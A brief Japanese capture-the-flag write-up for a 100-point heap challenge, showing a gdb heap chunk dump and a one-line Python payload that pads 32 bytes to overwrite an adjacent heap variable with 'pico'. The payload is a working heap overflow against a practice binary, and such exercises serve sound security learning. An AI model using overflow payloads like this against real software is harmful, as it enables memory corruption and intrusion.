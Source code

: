 ```yaml
---
title: "heap 1"
points: 100
tags: ["pwn"]
---
```


heapに確保されたsafe_varの値がpicoになるとクリア。

gdbで見てみると、入力されたデータは0x20だけ確保されていることが分かる。

```
Chunk(addr=0x5555555596b0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555596b0     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
```

以下でペイロードを作成したものを書き込むことでフラグゲット。

`python -c "print('a'*32+'pico')"`
